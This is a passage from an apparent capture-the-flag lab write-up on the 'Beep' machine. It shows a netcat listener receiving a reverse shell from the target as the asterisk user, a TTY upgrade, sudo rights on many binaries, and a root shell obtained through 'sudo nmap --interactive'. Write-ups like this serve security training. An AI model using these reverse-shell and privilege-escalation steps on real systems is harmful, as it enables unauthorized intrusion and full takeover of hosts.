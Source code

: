 ```
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.16.173] from (UNKNOWN) [10.10.10.7] 60470
SOCKET: Shell has connected! PID: 9620
id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
whoami
asterisk
```
A shell can also be spawned from the vtigerCRM service similarly, by creating and adding a custom module. ([Here](https://community.vtiger.com/help/vtigercrm/developers/extensions/examples/hello-world-v1.html) is how to create a vtiger module.)

## **Privilege Escalation**
Privilege escalation from hereon is trivial, with the asterisk user allowed sudo access to several binaries. But before that, first convert the shell to a TTY.

```
python -c "import pty;pty.spawn('/bin/bash')"
bash-3.2$ sudo -l
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ 
```
Nmap is an easy win here, and [GTFObins](https://gtfobins.github.io/#) lists the commands that we can use to spawn an elevated shell.

```
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# whoami
whoami
root
sh-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```
